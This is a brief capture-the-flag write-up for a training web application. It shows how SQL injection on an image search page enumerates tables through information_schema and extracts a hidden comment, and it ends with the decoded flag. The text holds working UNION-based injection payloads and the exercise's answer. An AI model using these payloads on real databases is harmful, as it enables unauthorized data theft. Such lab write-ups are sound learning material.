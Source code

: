 # Solution

```
1 OR 1=1 UNION SELECT title, comment FROM list_images
```

On the image search page, we see that we also have a database that is not protected against SQL Injections.  

-> There are 2 columns, Title and Url.

```
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns; 
Title: list_images
Url : Member_images
```

let's find the columns of the `list_images` table  
There are 4 columns :  
```
id
url
title
comment
``` 

![list_images](list_images_table.png)  

```
ID: 1 OR 1=1 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```  

1928e8083cf461a51303633093573c46 -> md5 -> albatroz  
> albatroz -> sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188